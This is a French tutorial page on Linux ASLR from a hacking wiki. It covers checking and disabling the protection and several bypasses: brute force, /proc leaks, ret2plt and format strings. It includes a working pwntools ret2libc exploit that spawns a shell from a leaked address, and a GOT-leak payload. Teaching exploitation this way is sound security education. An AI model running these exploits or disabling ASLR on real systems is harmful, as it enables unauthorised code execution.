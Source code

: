 # ASLR

{{#include ../../../../banners/hacktricks-training.md}}

## Informations de base

**Address Space Layout Randomization (ASLR)** est une technique de sécurité utilisée dans les systèmes d'exploitation pour **randomiser les adresses mémoire** utilisées par les processus système et d'application. Ce faisant, cela rend beaucoup plus difficile pour un attaquant de prédire l'emplacement de processus et de données spécifiques, tels que la pile, le tas et les bibliothèques, atténuant ainsi certains types d'exploits, en particulier les débordements de tampon.

### **Vérification de l'état d'ASLR**

Pour **vérifier** l'état d'ASLR sur un système Linux, vous pouvez lire la valeur dans le fichier `/proc/sys/kernel/randomize_va_space`. La valeur stockée dans ce fichier détermine le type d'ASLR appliqué :

- **0** : Pas de randomisation. Tout est statique.
- **1** : Randomisation conservatrice. Les bibliothèques partagées, la pile, mmap(), la page VDSO sont randomisées.
- **2** : Randomisation complète. En plus des éléments randomisés par la randomisation conservatrice, la mémoire gérée par `brk()` est randomisée.

Vous pouvez vérifier l'état d'ASLR avec la commande suivante :
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Désactiver ASLR**

Pour **désactiver** ASLR, vous devez définir la valeur de `/proc/sys/kernel/randomize_va_space` à **0**. Désactiver ASLR n'est généralement pas recommandé en dehors des scénarios de test ou de débogage. Voici comment vous pouvez le désactiver :
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Vous pouvez également désactiver ASLR pour une exécution avec :
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Activation de l'ASLR**

Pour **activer** l'ASLR, vous pouvez écrire une valeur de **2** dans le fichier `/proc/sys/kernel/randomize_va_space`. Cela nécessite généralement des privilèges root. L'activation de la randomisation complète peut être effectuée avec la commande suivante :
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Persistance à travers les redémarrages**

Les modifications apportées avec les commandes `echo` sont temporaires et seront réinitialisées lors du redémarrage. Pour rendre la modification persistante, vous devez éditer le fichier `/etc/sysctl.conf` et ajouter ou modifier la ligne suivante :
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Après avoir modifié `/etc/sysctl.conf`, appliquez les changements avec :
```bash
sudo sysctl -p
```
Cela garantira que vos paramètres ASLR restent après les redémarrages.

## **Contournements**

### Force brute 32 bits

PaX divise l'espace d'adresses du processus en **3 groupes** :

- **Code et données** (initialisées et non initialisées) : `.text`, `.data`, et `.bss` —> **16 bits** d'entropie dans la variable `delta_exec`. Cette variable est initialisée aléatoirement avec chaque processus et ajoutée aux adresses initiales.
- **Mémoire** allouée par `mmap()` et **bibliothèques partagées** —> **16 bits**, nommés `delta_mmap`.
- **La pile** —> **24 bits**, appelée `delta_stack`. Cependant, elle utilise effectivement **11 bits** (du 10ème au 20ème octet inclus), alignés sur **16 octets** —> Cela donne **524,288 adresses de pile réelles possibles**.

Les données précédentes concernent les systèmes 32 bits et l'entropie finale réduite permet de contourner l'ASLR en réessayant l'exécution encore et encore jusqu'à ce que l'exploit réussisse.

#### Idées de force brute :

- Si vous avez un débordement suffisamment grand pour accueillir un **grand NOP sled avant le shellcode**, vous pourriez simplement forcer les adresses dans la pile jusqu'à ce que le flux **saute par-dessus une partie du NOP sled**.
- Une autre option dans ce cas, si le débordement n'est pas si grand et que l'exploit peut être exécuté localement, est de **ajouter le NOP sled et le shellcode dans une variable d'environnement**.
- Si l'exploit est local, vous pouvez essayer de forcer l'adresse de base de libc (utile pour les systèmes 32 bits) :
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
- Si vous attaquez un serveur distant, vous pourriez essayer de **brute-forcer l'adresse de la fonction `libc` `usleep`**, en passant comme argument 10 (par exemple). Si à un moment donné le **serveur met 10s de plus à répondre**, vous avez trouvé l'adresse de cette fonction.

> [!TIP]
> Dans les systèmes 64 bits, l'entropie est beaucoup plus élevée et cela n'est pas possible.

### Informations Locales (`/proc/[pid]/stat`)

Le fichier **`/proc/[pid]/stat`** d'un processus est toujours lisible par tout le monde et il **contient des informations intéressantes** telles que :

- **startcode** & **endcode** : Adresses au-dessus et en dessous du **TEXT** du binaire
- **startstack** : L'adresse du début de la **pile**
- **start_data** & **end_data** : Adresses au-dessus et en dessous où se trouve le **BSS**
- **kstkesp** & **kstkeip** : Adresses actuelles de **ESP** et **EIP**
- **arg_start** & **arg_end** : Adresses au-dessus et en dessous où se trouvent les **arguments cli**.
- **env_start** & **env_end** : Adresses au-dessus et en dessous où se trouvent les **variables d'environnement**.

Par conséquent, si l'attaquant est sur le même ordinateur que le binaire exploité et que ce binaire ne s'attend pas à un débordement d'arguments bruts, mais d'une **entrée différente qui peut être fabriquée après avoir lu ce fichier**. Il est possible pour un attaquant de **récupérer certaines adresses de ce fichier et de construire des décalages à partir de celles-ci pour l'exploitation**.

> [!TIP]
> Pour plus d'informations sur ce fichier, consultez [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) en recherchant `/proc/pid/stat`

### Avoir une fuite

- **Le défi consiste à donner une fuite**

Si vous recevez une fuite (défis CTF faciles), vous pouvez calculer des décalages à partir de celle-ci (en supposant par exemple que vous connaissez la version exacte de libc utilisée dans le système que vous exploitez). Cet exemple d'exploitation est extrait de [**l'exemple d'ici**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (consultez cette page pour plus de détails) :
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
- **ret2plt**

En abusant d'un débordement de tampon, il serait possible d'exploiter un **ret2plt** pour exfiltrer une adresse d'une fonction de la libc. Vérifiez :

{{#ref}}
ret2plt.md
{{#endref}}

- **Format Strings Arbitrary Read**

Tout comme dans ret2plt, si vous avez une lecture arbitraire via une vulnérabilité de chaînes de format, il est possible d'exfiltrer l'adresse d'une **fonction libc** depuis le GOT. L'exemple suivant [**est tiré d'ici**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got) :
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Vous pouvez trouver plus d'infos sur la lecture arbitraire des chaînes de format dans :

{{#ref}}
../../format-strings/
{{#endref}}

### Ret2ret & Ret2pop

Essayez de contourner l'ASLR en abusant des adresses à l'intérieur de la pile :

{{#ref}}
../../stack-overflow/ret2ret.md
{{#endref}}

{{#include ../../../../banners/hacktricks-training.md}}
